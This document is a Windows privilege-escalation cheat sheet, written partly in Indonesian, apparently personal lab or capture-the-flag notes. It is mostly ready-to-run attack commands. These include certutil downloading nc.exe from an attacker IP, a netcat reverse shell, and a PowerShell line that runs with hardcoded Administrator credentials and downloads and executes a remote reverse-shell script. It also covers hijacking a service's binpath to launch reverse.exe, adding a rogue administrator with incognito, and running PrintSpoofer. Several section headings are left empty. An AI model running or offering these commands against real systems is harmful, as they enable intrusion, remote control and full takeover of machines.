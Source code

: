 ## Check System Info --
~# systeminfo

## Download File From CMD (Not PowerShell) -- 
certutil.exe -urlcache -split -f "http://10.14.17.16:4545/nc.exe" %tmp%\nc.exe

### Reverse Shell
%tmp%\nc.exe IP PORT -e cmd

## Download File From PowerShell) -- 

(New-Object System.Net.WebClient).DownloadFile("https://example.com/archive.zip", "C:\Windows\Temp\archive.zip")  

## Reverse Shell With Nishang To Get Powershell --

## Windows  Exploit Suggester --

##Run Nishang As Administrator to get root! -- 
We must get low shell with nishang. Then run this command

Requirement : SeChangeNotifyPrivilege       Bypass traverse checking             Enabled

Check : whoami /all
PRIVILEGES INFORMATION                                                                                                                                                                                                            [319/687]
----------------------                                                                                                                                                                                                                     
                                                                                                                                                                                                                                           
Privilege Name                Description                          State                                                                                                                                                                   
============================= ==================================== ========                                                                                                                                                                
SeShutdownPrivilege           Shut down the system                 Disabled                                                                                                                                                                
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled  <<---                                                                                                                                                            
SeUndockPrivilege             Remove computer from docking station Disabled                                                                                                                                                                
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled                                                                                                                                                                
SeTimeZonePrivilege           Change the time zone                 Disabled 

Then run this command
$SecPass = ConvertTo-SecureString -AsPlainText -Force 'Welcome1!' 
$cred = New-Object System.Management.Automation.PSCredential('Administrator',$SecPass)
Start-Process -Filepath "powershell" -argumentlist "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.29/Invoke-PowershellTcp.ps1')" -Credential $cred

============================================

# Windows Privilege Escalation

## Insecure Service Permissions
Service merupakan program-program pada windows yang dijalankan pada background. Terkadang menerima input atau menjalankan sebuah task
Jika sebuah **service** dijalankan dengan privileges **SYSTEM** dan terdapat misconfiguration, maka kita bisa melakukan priv esc. 

### Recon
* Query untuk melihat konfigurasi dari service --> `sc.exe qc <name>`
* Melihat status service --> `sc.exe query <name>`
* Modifikasi configurasi dari sebuah service --> `sc.exe config <name> <option>= <value>` (pastikan value ada spasi di depan)
* Start/Stop Service --> `net start/stop <name>`

Terdapat beberapa celah service misconfiguration yang dapat menyebabkan Privilege Escalation diantaranya

### Insecure Service Properties
Setiap service memiliki Access Control (ACL) tentang siapa yang berhak mengakses service tersebut seperi Start/Stop, mengubah konfigurasi dll. Jika low user memiliki hak akses untuk merubah konfigurasi dari service yang dijalankan dengan privilege SYSTEM, maka kita bisa mengganti service tersebut dengan miliki kita. Namun kalau kita bisa ganti tapi gak bisa start/stop, maka kemungkinan tidak bisa di escalate.

-- RECON --

Menggunakan WINPEAS untuk mencari informasi service yang terdapat pada windows
```
.\winPEASany.exe quiet servicesinfo
```
Penjelasan command :
- quiet --> do not print banner, biasanya winpeas bannernya gede banget
- servicesinfo --> mencari informasi service

Hasil dari servicesinfo yang perlu diperhatikan adalah "YOU CAN MODIFY THIS SERVICE: WriteData/CreateFiles" (teks berwarna merah) yang artinya sebuah service bisa diubah konfigurasinya. 

Lalu lakukan pengecekan pada service apakah benar service tersebut bisa dimodifikasi, gunakan tools accesschk.exe
```
accesschk.exe /accepteula -uwcqv <nama_user_low_privilege> <nama_service>
```
Hasilnya :
```
RW MyService
	SERVICE_QUERY_STATUS
	SERVICE_QUERY_CONFIG
	SERVICE_CHANGE_CONFIG
	SERVICE_INTERROGATE
	SERVICE_ENUMERATE_DEPENDENTS
	SERVICE_START
	SERVICE_STOP
	READ_CONTROL
```
Yang terpenting adalah 
```
SERVICE_CHANGE_CONFIG
SERVICE_START
SERVICE_STOP
```
Artinya kita bisa ubah konfigurasi dan untuk bisa menerapkan perubahan maka kita harus restart (start/stop) service. 

Lalu kita cek konfigurasu dari service tersebut
```
sc qc <nama service>
```
```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```
Lihat pada SERVICE_START_NAME service tersebut dijalankan oleh SYSTEM (hak akses tertinggi). Dan juga pada START_TYPE valuenya DEMAND_START yang artinya di start secara manual

Selanjutnya kita cek status servicenya, apakah berjalan atau tidak
```
sc query <nama service>
```
Lihat pada STATE apakah STOPPED or RUNNING

Bagaimana cara melakukan PRIV ESC? perhatikan lagi informasi service berikut :

```

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

Karena kita memiliki hak akses untuk merubah konfiguras, maka kita bisa merubah **BINARY_PATH_NAME** menjadi PATH dimana kita menyimpan file untuk melakukan reverse shell. Perintahnya adalah

```
sc config <nama_service> binpath= "\"C:\myFolder\reverse.exe\""
```
Sehingga BINARY_PATH_NAME berubah menjadi `C:\myFolder\reverse.exe`, untuk menerapkan perubahan pada konfigurasi, perintahnya
```
net start <nama_service>
```



### Unquoted Service Path
### Weak Registry Permissions
### Insecure Service Executables
### DLL Hijacking
--------------------------------------------------------------

## Token Impersonate

Windows menggunakan Token sebagai Identifier untuk setiap pengguna. Token ini di generate saat login. Ada celah keamanan dimana user biasa bisa melakukan priv esc bilamana user kita saat ini memiliki permission seDebugPrivilege dan SeImpersonatePrivilege

Untuk cek apakah user bisa di impersonate cek di CMD :
$ whoami /priv
pastikan seDebugPrivilege dan SeImpersonatePrivilege enabled. 

Lalu cek user mana saja yang bisa di impersonate. Kita bisa pakai incognito.exe, commandnya :

* incognito.exe list tokens -u //list token available to impersonate
* incognito.exe add_user mrdoel 123456 //add new user
* incognito.exe add_localgroup_user Administrators mrdoel  //add new user to the local administrators group
* net user mrdoel //cek apakah user sudah ditambahkan ke group administrator (Local Group Memberships      *Administrators)

Jika RDP tersedit maka kita bisa login sebagai root dengan command
`rdesktop -u mrdoel -p 123456 target.local`

### Teknik Baru Token Impersonate 
Cara sebelumnya hanya berlaku untuk windows dibawah windows 10. Jika cara diatas tidak bisa maka kita bisa gunakan PrintSpoofer, targetnya Windows 10 and Server 2016/2019. 

Note: pastikan `SeImpersonatePrivilege` berstatus `Enabled`

Cek di https://github.com/itm4n/PrintSpoofer/releases

Perintah untuk menjalankan exploit
```PrintSpoofer64.exe -i -c cmd```
